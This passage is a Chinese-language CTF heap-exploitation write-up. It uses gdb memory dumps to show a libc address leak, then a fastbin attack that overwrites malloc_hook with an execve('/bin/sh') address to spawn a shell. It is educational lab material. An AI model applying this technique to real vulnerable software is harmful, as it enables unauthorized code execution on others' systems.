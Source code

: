 ```
0x56144ab7e060:	0x6161616161616161	0x6161616161616161
0x56144ab7e070:	0x0000000000000000	0x0000000000000071
0x56144ab7e080:	0x6262626262626262	0x6262626262626262
0x56144ab7e090:	0x6262626262626262	0x6262626262626262
0x56144ab7e0a0:	0x6262626262626262	0x6262626262626262
0x56144ab7e0b0:	0x6262626262626262	0x6262626262626262
0x56144ab7e0c0:	0x0000000000000000	0x0000000000000111
0x56144ab7e0d0:	0x00007f26abbacb78	0x00007f26abbacb78 --> 指向libc中的某地址
0x56144ab7e0e0:	0x0000000000000000	0x0000000000000071
```
`Leak Address`总体流程：
> 申请两个`fast chunk`, 一个`small chunk`, 伪造`chunk header`, 最终目的就是为了是`libc`的地址出现在某个可打印的`chunk`块中。
#### Two Part
**如何获取`Shell`?**
> malloc_hook 是一个`libc`上的函数指针，调用`malloc`时如果该指针不为空则执行它指向的函数，可以通过写`malloc_hook`来`getshell`

_思路_: Alloc(x), 返回的地址是`malloc_hook`, 那么我们就可向这个地址写入`execve("/bin/sh")`的地址
现在`fastbin`：
```
[ fb 4 ] 0x7f1017adfb48  -> [ 0x0 ]
[ fb 5 ] 0x7f1017adfb50  -> [ 0x55b076f6b070 ] (112) --> free chunk2
[ fb 6 ] 0x7f1017adfb58  -> [ 0x0 ]
```
执行`free(1)`, `Fill(0, 0x60 + 0x10 + 0x10, payload)`
```
[ fb 0 ] 0x7f1017adfb28  -> [ 0x0 ]
[ fb 1 ] 0x7f1017adfb30  -> [ 0x0 ]
[ fb 2 ] 0x7f1017adfb38  -> [ 0x0 ]
[ fb 3 ] 0x7f1017adfb40  -> [ 0x0 ]
[ fb 4 ] 0x7f1017adfb48  -> [ 0x0 ]
[ fb 5 ] 0x7f1017adfb50  -> [ 0x55b076f6b070 ] (112)
                            [ 0x7f1017adfaed ] (112) --> 被修改为了malloc_hook附近的地址
[ fb 6 ] 0x7f1017adfb58  -> [ 0x0 ]
[ fb 7 ] 0x7f1017adfb60  -> [ 0x0 ]
[ fb 8 ] 0x7f1017adfb68  -> [ 0x0 ]
[ fb 9 ] 0x7f1017adfb70  -> [ 0x0 ]
```
`Alloc(0x60) * 2`, 第二次返回的就是`malloc_hook`附近的地址.
```
Fill(2, length, execve_address),
Alloc(0x20) --> 执行execve("/bin/sh")
```
### 其他问题:
**1. 这个地址和`libc`加载的基地址有什么关系?**
> 答: 泄露出来的这个地址与libc之间相差`0x3c4b78`， 可以使用`peda`的`vmmap`来验证.
```
0x55b076f6b0c0:	0x0000000000000000	0x0000000000000111
0x55b076f6b0d0:	0x00007f1017adfb78	0x00007f1017adfb78
0x55b076f6b0e0:	0x0000000000000000	0x0000000000000071
0x55b076f6b0f0:	0x0000000000000000	0x0000000000000000
--------------------------------------
0x000055b076f6b000 0x000055b076f8c000 rw-p	[heap]
0x00007f101771b000 0x00007f10178db000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f10178db000 0x00007f1017adb000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
```
**2. `0x71`是什么鬼？ 为甚么要填充它?**
> `0x71` 被称为`chunksize` ,下面这段代码是`malloc.c`中的一段代码，如果`fastbin_index (chunksize (victim)) != idx`， 就会`corruption`, `free`的时候也会检查`chunksize`, 根据`chunksize`的大小，`free`相应的空间.
